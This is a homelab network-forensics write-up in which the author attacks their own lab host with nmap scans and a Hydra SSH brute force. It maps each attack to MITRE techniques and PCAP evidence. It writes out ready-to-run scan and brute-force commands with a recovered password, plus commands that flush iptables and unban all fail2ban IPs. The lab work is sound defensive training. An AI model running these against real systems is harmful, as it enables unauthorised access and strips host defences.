

# 03 — Attack Scenario

## Overview

Four attacks executed from Kali (`192.168.178.129`) against aegis-sentinel (`192.168.178.126`) while `tcpdump` captured all traffic on aegis-sentinel.

---

## Attack 1 — nmap SYN Scan

```bash
sudo nmap -sS -A -T4 192.168.178.126
```

| Flag | Meaning |
|:-----|:--------|
| `-sS` | SYN scan — sends SYN only, never completes the TCP handshake |
| `-A` | Aggressive — OS detection, version detection, traceroute |
| `-T4` | Fast timing |


```
PORT   STATE  SERVICE  VERSION
22/tcp open   ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15
OS: Linux 4.15-5.19
Network Distance: 1 hop
```

**MITRE:** T1595 — Active Scanning

---

## Attack 2 — nmap Service Version Detection

```bash
sudo nmap -sV 192.168.178.126
```

| Flag | Meaning |
|:-----|:--------|
| `-sV` | Connects to open ports and reads service banners to detect exact version |



```
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
```

nmap reads the SSH banner and during the connection identifies itself as `SSH-2.0-NmapNSE` — visible in cleartext in the PCAP.

**MITRE:** T1595 — Active Scanning

---

## Attack 3 — nmap OS Fingerprinting

```bash
sudo nmap -O 192.168.178.126
```

| Flag | Meaning |
|:-----|:--------|
| `-O` | OS detection — sends specially crafted probes to fingerprint the operating system |


```
Device type: general purpose
Running: Linux 4.X|5.X
OS details: Linux 4.15 – 5.19
```

Sends impossible TCP flag combinations (`FIN+SYN+PSH+URG`) — uniquely visible in PCAP and immediately identifiable as nmap.

**MITRE:** T1595 — Active Scanning

---

## Attack 4 — Hydra SSH Brute Force

```bash
hydra -l aegis-siem -P /tmp/rockyou_9800.txt ssh://192.168.178.126
```

| Flag | Meaning |
|:-----|:--------|
| `-l aegis-siem` | Username to target |
| `-P /tmp/rockyou_9800.txt` | Password list (rockyou.txt starting from line 9800) |
| `ssh://` | Target protocol on default port 22 |


```
[22][ssh] host: 192.168.178.126   login: aegis-siem   password: 1111 ✅
1 of 1 target successfully completed
```

**MITRE:** T1110.001 (Brute Force) → T1078 (Valid Accounts)

---

## fail2ban from Ch.02 — Still Active

After the brute force, a direct SSH connection attempt was blocked:


```
ssh: connect to host 192.168.178.126 port 22: Connection refused
```

fail2ban from Ch.02 was still running on aegis-sentinel and had already blocked Kali's IP after 5 failed attempts. This required a reset before Hydra could succeed:

```bash
sudo iptables -F
sudo fail2ban-client unban --all
```

This confirms Ch.02 defense-in-depth is still operational — visible as RST packets in the PCAP.

---

## MITRE ATT&CK Kill Chain

| Phase | Technique | ID | Tool | Evidence in PCAP |
|:------|:----------|:---|:-----|:-----------------|
| Reconnaissance | Active Scanning | T1595 | nmap -sS | SYN flood, Win=1024 |
| Reconnaissance | Active Scanning | T1595 | nmap -O | FIN+SYN+PSH+URG flags |
| Reconnaissance | Active Scanning | T1595 | nmap -sV | SSH-2.0-NmapNSE banner |
| Credential Access | Brute Force | T1110.001 | Hydra | Repeated Key Exchange pattern |
| Initial Access | Valid Accounts | T1078 | Hydra | Large encrypted session packets |

---

*homelab_AEGIS · github.com/cyb-ersin · Ch.03 — Network Forensics & PCAP Analysis*
